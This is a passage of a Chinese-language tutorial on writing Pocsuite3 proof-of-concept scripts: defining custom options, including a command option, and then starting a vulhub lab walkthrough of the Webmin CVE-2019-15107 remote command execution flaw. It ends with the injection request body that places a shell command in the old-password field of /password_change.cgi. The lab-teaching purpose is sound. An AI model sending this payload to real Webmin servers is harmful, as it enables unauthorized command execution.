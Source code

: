 ```
# 以下是attack 模式定义额外的命令行参数的例子def_options(self):    o = OrderedDict() #于生成并返回一个包含选项的有序字典（OrderedDict）    #    o['cmd'] = OptString('uname -a', description='The command to execute')    # OptString：这是一个自定义的字符串选项类，用于表示一个字符串类型的选项。    # 'uname -a'：这是传递给 OptString 的默认值，表示一个要在 Unix 系统上执行的命令，用于显示系统的详细信息。    # description='The command to execute'：这是对选项的描述，说明这个选项是用来执行命令的。    # 在cmd窗口下可以添加--cmd参数来指定要执行的命令。    return o #返回这个参数字典#另一个例子：def_options(self):    o = OrderedDict()    o["username"] = OptString('', description='这个poc需要用户登录，请输入登录账号', require=True)    o["password"] = OptString('', description='这个poc需要用户密码，请输出用户密码', require=False)    return o# 通过self.get_option(key值)来获取自定义参数def_verify(self):    result = {}    payload = "username={0}&password={1}".format(self.get_option("username"), self.get_option("password"))    r = requests.post(self.url, data=payload)    if r.status_code == 200:        result['VerifyInfo'] = {}        result['VerifyInfo']['URL'] = self.url        result['VerifyInfo']['Postdata'] = payload    returnself.parse_output(result)
```  
- • 在 console 模式下，Pocsuite3 模仿了 Metasploit 的操作模式，你只需要使用 set 命令来设置相应的参数，然后 run 或者 check 来执行（attack 和 shell 命令也可以）。  
  
- • 在 cli 模式下，如上面第二个例子所示，定义了 username 和 password 两个字段，你可以在参数后面加上 --username test --password test 来调用执行，需要注意的是，如果你的参数中包含了空格，用双引号 " 来包裹它。  
  
**自定义参数的数据传入类型除了OptString之外还有OptDict、OptIP、OptBool等，详情请看官网：**  
  
https://pocsuite.org/guide/poc-definition-options.html#%E6%94%AF%E6%8C%81%E7%9A%84%E8%87%AA%E5%AE%9A%E4%B9%89%E5%AD%97%E6%AE%B5%E7%B1%BB%E5%9E%8B  
  
**总结：通过**_options  
**方法自定义传参后，需要使用方法**self.get_option()  
**来获取自定义参数**  
# Poc开发的注意事项：  
  
以下截图来自于官网：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/AyVFGmKalNwrrP6ib8V76Ij0gOZ43NTfL8kzJMX27SwIdZxBudTQt7cpLqfMGf1VicuDicibRv5d9DPm2CTEic5qLow/640?wx_fmt=png&from=appmsg "null")  
  
  
**更多注意事项请看官网：**  
  
https://pocsuite.org/guide/poc-write-notice.html  
# pocsuite3的Poc脚本开发实战案例  
  
我们拿官网讲到的 Webmin 未授权远程命令执行漏洞（CVE-2019-15107）来做一个详细的讲解。  
## vulhub启动靶场  
  
在 vulhub-master/webmin/CVE-2019-15107 路径下打开终端，依次输入以下命令（需要安装docker和下载vulhub）：  
```
sudo service docker start sudo docker-compose build sudo docker-compose up -d 
```  
  
然后用https打开虚拟机ip:10000,如下所示。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/AyVFGmKalNwrrP6ib8V76Ij0gOZ43NTfLSUMibJDZRaXJSiaRmHlNmk9tibog2e286qhhScZt9sMuVDLW2FgL1NEuA/640?wx_fmt=png&from=appmsg "null")  
  
  
抓登录的包,将登录包的路径换位/password_change.cgi ，将data设置为：user=12&pam=333&expired=2&old=ls&new1=1111&new2=1111  
   